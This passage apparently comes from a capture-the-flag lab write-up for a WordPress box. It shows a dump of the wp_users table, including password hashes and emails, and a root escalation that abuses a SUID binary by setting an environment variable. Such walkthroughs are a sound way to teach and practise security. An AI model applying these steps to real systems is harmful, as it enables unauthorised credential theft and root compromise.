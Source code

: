 7. Check the wp_users table and get content
```sh
select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+

```
### Privilege escalation
1. Checking the SUID bits we can fins a file /usr/sbin/checker
2. Running *strings* on it we can check the logic and see there is a variable called *admin* based on which the role is set
3. Set export attribute for variable to 1 *export admin=1* and run the script again */usr/sbin/checker* will give you root rights
4. Get the root flag from /root/root.txt: *[RootFlag]*
5. Search for user.txt file and you will get the correct one in location /media/usb
6. Get the user flag: *[UserFlag]*